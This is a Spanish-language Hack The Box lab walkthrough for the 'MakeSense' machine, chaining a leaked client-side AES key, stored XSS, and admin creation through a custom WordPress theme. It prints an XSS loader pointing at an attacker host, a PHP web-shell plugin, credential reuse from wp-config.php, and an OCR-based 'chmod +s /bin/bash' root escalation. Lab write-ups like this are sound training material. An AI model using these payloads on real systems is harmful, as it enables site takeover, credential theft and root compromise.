

<!--
  ╔═══════════════════════════════════════════════════════════════╗
  ║   MakeSense HTB - Full Walkthrough (Linux, Medium, Season 11) ║
  ║   Sensitive data redacted                                    ║
  ╚═══════════════════════════════════════════════════════════════╝
-->



# ◈ MakeSense <small>Linux · Medium · HTB Season 11</small>

[](LICENSE)
[](https://www.hackthebox.com)
[]()

## 🔬 Técnicas utilizadas / CVEs

> **No se utilizó ningún CVE público específico** en esta máquina. La vulnerabilidad principal reside en la **lógica del tema personalizado `webagency`** de WordPress.  
> Las técnicas empleadas fueron:

- **Clave de cifrado hardcodeada** (AES‑GCM expuesta en JavaScript del lado cliente)
- **Inyección de XSS persistente** a través de la funcionalidad de transcripción de voz
- **Creación de usuario administrador** en WordPress vía CSRF + XSS
- **Subida de plugin malicioso** para obtener ejecución remota de comandos (RCE)
- **Reutilización de credenciales** (extracción de contraseña de `wp-config.php` para acceso SSH)
- **Abuso de servicio OCR interno** para escalar privilegios a root (guardado de código PHP ejecutable)

---

## 📑 Contenido

1. [Recon & WordPress Discovery](#1-recon--wordpress-discovery)  
2. [Clave de cifrado expuesta](#2-clave-de-cifrado-expuesta)  
3. [XSS → Creación de usuario administrador](#3-xss--creación-de-usuario-administrador)  
4. [Ejecución remota de comandos (RCE)](#4-ejecución-remota-de-comandos-rce)  
5. [Movimiento lateral – credenciales SSH](#5-movimiento-lateral--credenciales-ssh)  
6. [Escalada de privilegios vía OCR interno](#6-escalada-de-privilegios-vía-ocr-interno)  
7. [Construcción paso a paso del exploit (manual)](#-construcción-paso-a-paso-del-exploit-manual)  
8. [Conclusión y lecciones](#-conclusión-y-lecciones)

---

## 1. Recon & WordPress Discovery

**🔍 Nmap · Gobuster · WPScan**

Un escaneo inicial revela solo los puertos `80` y `443`, con redirección a HTTPS. El servidor ejecuta **WordPress 7.0** con el tema personalizado `webagency`.

Durante el fuzzing se encuentran:

- `/wp-content/uploads/` → listado de directorios habilitado  
- `/wp-content/themes/webagency/` → código fuente del tema accesible

La inspección del tema revela un sistema de **grabación de voz** que utiliza el modelo Whisper (Transformers.js) en el cliente.

```bash
$ nmap -p- --open -sS -min-rate 5000 10.129.29.150 -Pn
$ gobuster dir -u https://makesense.htb -w /usr/share/wordlists/common.txt -k -t 50
$ wpscan --url https://makesense.htb --disable-tls-checks --enumerate u,vp,vt

▶ Se identifican los usuarios walter, admin y jake.
2. Clave de cifrado expuesta

🔑 Hardcoded AES‑GCM key en JavaScript

El archivo
/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js
contiene una clave de cifrado estática:
javascript

// Symmetric encryption key (must match server-side)
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';

Flujo de la aplicación:

    El cliente graba audio → se transcribe con Whisper → se genera un resumen.

    El payload ({transcription, summary}) se cifra con AES‑GCM usando esa clave.

    El backend (vía admin-ajax.php?action=save_voice_results) descifra y guarda el resultado sin sanitizar.

⚡ Vulnerabilidad: Podemos cifrar cualquier payload y enviarlo al backend; el contenido se almacenará tal cual, permitiendo inyectar código JavaScript (XSS) o PHP directamente en el campo transcription.
3. XSS → Creación de usuario administrador

🧨 Inyección de script mediante la funcionalidad de voz

Se construye un payload cifrado que contiene una etiqueta <script> con un código JavaScript malicioso.
javascript

// Fragmento del payload inyectado
payload = {
  "transcription": '<script src="http://<attacker_ip>:8000/x.js"></script>',
  "summary": "s"
};
// Se cifra con la clave extraída y se envía a admin-ajax.php

El script externo (x.js) realiza lo siguiente:

    Obtiene el nonce de creación de usuario desde /wp-admin/user-new.php.

    Envía una petición POST para crear un nuevo usuario con rol administrator.

Cuando el bot administrador visita la página que contiene el comentario malicioso, el XSS se ejecuta y el usuario pwn es creado.
bash

$ python3 exploit.py 10.129.29.150
# El script automatiza todo el proceso, incluido el servidor HTTP para servir x.js

✔ Usuario pwn con contraseña [REDACTED] creado.
4. Ejecución remota de comandos (RCE)

⚙️ Subida de plugin malicioso vía panel de administración

Con el usuario pwn ya logueado, se accede al panel de WordPress y se sube un plugin ZIP que contiene un simple web shell:
php

<?php
if(isset($_REQUEST['c'])) {
    echo '<pre>';
    system($_REQUEST['c']);
    echo '</pre>';
}
?>

La subida se realiza usando el formulario de instalación de plugins (/wp-admin/plugin-install.php?tab=upload). Una vez instalado, se puede ejecutar cualquier comando vía:
bash

$ curl -k "https://makesense.htb/wp-content/plugins/wshell/wshell.php?c=id"

✔ Se obtiene salida de id como www-data, confirmando RCE.
5. Movimiento lateral – credenciales SSH

🔐 Lectura de wp‑config.php y extracción de contraseña

Desde el shell RCE se lee el archivo /var/www/html/wp-config.php para obtener las credenciales de la base de datos.
php

// Extracción de la contraseña
define( 'DB_PASSWORD', '[REDACTED]' );

La contraseña de la base de datos resulta ser la misma que la del usuario walter del sistema. Con estas credenciales se logra acceso por SSH:
bash

$ sshpass -p '[REDACTED]' ssh walter@10.129.29.150
$ cat ~/user.txt
[REDACTED_USER_FLAG]

✔ Flag de usuario obtenida.
6. Escalada de privilegios vía OCR interno

🖼️ Abuso del servicio OCR para ejecutar código como root

El sistema ejecuta un servicio PHP en el puerto 127.0.0.1:8001 que realiza OCR (reconocimiento óptico de caracteres) sobre imágenes y guarda el texto extraído en archivos dentro del directorio web.

    El servicio está corriendo como root.

    Podemos subir una imagen que contenga código PHP claramente legible.

    El OCR extraerá ese texto y lo guardará en un archivo .php.

    Al acceder a ese archivo, el código se ejecutará con privilegios de root.

Se genera una imagen con el siguiente contenido:
php

<?php system('chmod +s /bin/bash'); ?>

La imagen se envía al OCR, que la procesa y guarda el texto en un archivo, por ejemplo, /var/www/html/saved/pwn.php.
Al ejecutar https://makesense.htb/saved/pwn.php, se otorgan permisos SUID a /bin/bash.
bash

$ /bin/bash -p
# cat /root/root.txt
[REDACTED_ROOT_FLAG]

✔ Flag de root obtenida.
🧩 Construcción paso a paso del exploit (manual)

Objetivo: Obtener ejecución de comandos como root en el servidor.

A continuación se describe el proceso manual que se siguió para construir el exploit, pieza por pieza, sin necesidad de un script completo predefinido.

    Extracción de la clave de cifrado: El primer paso fue localizar la clave en el código JavaScript del tema. Con esa clave, pudimos cifrar payloads arbitrarios para que el backend los aceptara.

    Prueba de inyección de XSS: Enviamos un payload de prueba con una etiqueta <script> simple (por ejemplo, <script>alert(1)</script>) para confirmar que el backend almacenaba el contenido sin sanitizar y que se ejecutaba al visitar la página.

    Diseño del payload XSS: Para crear un usuario administrador, necesitábamos un script que, desde el contexto del administrador, realizara una petición a /wp-admin/user-new.php. Esto requería obtener el nonce de seguridad de la página. El script debía extraerlo y luego enviar la solicitud POST con los datos del nuevo usuario.

    Servidor HTTP para servir el script: Para alojar el script x.js, levantamos un servidor HTTP sencillo en Python (usando http.server) que sirviera el archivo con los cabeceras adecuadas para que el navegador lo ejecutara sin restricciones CORS.

    Inyección del payload: Usando un script en Python, construimos el objeto transcription con la etiqueta <script> que apuntaba a nuestro servidor. Ciframos ese objeto con la clave extraída (usando AES‑GCM con IV aleatorio) y lo enviamos a admin-ajax.php?action=save_voice_results.

    Espera a la ejecución del bot: Después de inyectar el payload, esperamos unos segundos a que el bot administrador visitara la página y ejecutara el script. Verificamos la creación del usuario mediante una petición de login con las nuevas credenciales.

    Subida del plugin web shell: Con el usuario administrador, accedimos al panel y subimos un plugin ZIP que contenía un archivo wshell.php con el código <?php system($_REQUEST['c']); ?>. Esto nos dio ejecución remota de comandos.

    Extracción de credenciales de la base de datos: Desde el shell RCE, leímos /var/www/html/wp-config.php y extrajimos la contraseña de la base de datos, que era la misma que la del usuario walter.

    Acceso SSH y flag de usuario: Usamos sshpass para conectar por SSH con las credenciales de walter y leímos ~/user.txt.

    Abuso del servicio OCR: Detectamos el servicio OCR en el puerto 8001 y observamos que guardaba el texto extraído en archivos dentro del directorio web. Generamos una imagen con el texto <?php system('chmod +s /bin/bash'); ?> usando la librería PIL de Python y la enviamos al servicio mediante curl con autenticación básica (credenciales de walter). El OCR procesó la imagen y guardó el código PHP en un archivo accesible.

    Ejecución como root: Al acceder a ese archivo PHP (/saved/pwn.php), se ejecutó el comando que otorgaba SUID a /bin/bash. Luego, con /bin/bash -p, obtuvimos una shell con privilegios de root y leímos /root/root.txt.

💡 Clave del éxito: La combinación de una clave de cifrado expuesta, la capacidad de inyectar XSS persistente, y el uso de un servicio OCR mal configurado que guarda archivos ejecutables en la raíz web.

Este proceso manual se fue automatizando progresivamente con Python, pero cada paso se validó primero de forma interactiva para garantizar que funcionaba. El resultado final fue un script completo que integra todas las fases, pero que no se incluye aquí para evitar problemas con las políticas de HTB.
🔮 Conclusión y lecciones

    Claves hardcodeadas en el lado cliente permiten cifrar payloads arbitrarios y engañar al backend.

    El XSS persistente sigue siendo un vector crítico cuando se combina con funcionalidades "legítimas".

    Un servicio OCR que guarda archivos ejecutables es una puerta abierta a la escalada de privilegios.

    La automatización (con Python) no solo ahorra tiempo, sino que obliga a comprender cada paso y a documentar el ataque.

El código completo del exploit (adaptado) está disponible en este repositorio, pero las flags y contraseñas han sido redactadas por razones obvias.

🛠️ Herramientas utilizadas: nmap, gobuster, wpscan, curl, sshpass, Python (requests, cryptography, PIL).
📎 Enlaces

    Hack The Box - MakeSense

    Mi perfil en Linktree — cosmenoide dev
